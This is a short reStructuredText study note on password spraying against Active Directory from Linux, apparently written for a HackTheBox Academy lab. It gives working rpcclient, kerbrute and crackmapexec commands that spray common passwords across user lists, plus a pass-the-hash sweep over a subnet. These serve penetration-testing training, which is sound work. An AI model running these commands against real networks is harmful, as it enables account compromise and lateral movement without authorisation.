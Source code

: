 Internal Password Spraying from Linux
#######################################

Date: 2024-12-20 14:59:56

Status: #new 

Tags: :ref:`active directory enumeration attacks`

----

Description
************

By using a list created from :ref:`password spraying` creating username lists
we are ready to use it to attack. 

.. danger:: Remember you can lock out accounts if you don't understand the password policy.  

Usage
*******

1. Using a bash loop and :ref:`rpcclient`
=========================================

.. code-block:: console

    for u in $(cat valid_users.txt);do rpcclient -U "$u%Welcome1" -c "getusername;quit" 172.16.5.5 | grep Authority; done



2. Using :ref:`kerbrute`
======================

.. code-block:: console

    kerbrute passwordspray -d inlanefreight.local --dc 172.16.5.5 valid_users.txt  Welcome1


3. Using :ref:`crackmapexec`
===============================

.. code-block:: console

    sudo crackmapexec smb 172.16.5.5 -u valid_users.txt -p Password123 | grep +


Validating the credentials with :ref:`crackmapexec`
*****************************************************

.. code-block:: console

    sudo crackmapexec smb 172.16.5.5 -u avazquez -p Password123


Password re-use in the Domain
*******************************

It is common to see passwords reused on the same privileged accounts across the enterprise.  Once you have a hash of a privileged account, you can test this hash to see if it is used elsewhere.

Example 1.  Using :ref:`crackmapexec` to scan the network

.. code-block:: console

    sudo crackmapexec smb --local-auth 172.16.5.0/23 -u administrator -H 88ad09182de639ccc6579eb0849751cf | grep +

References
************
https://academy.hackthebox.com/module/143/section/1271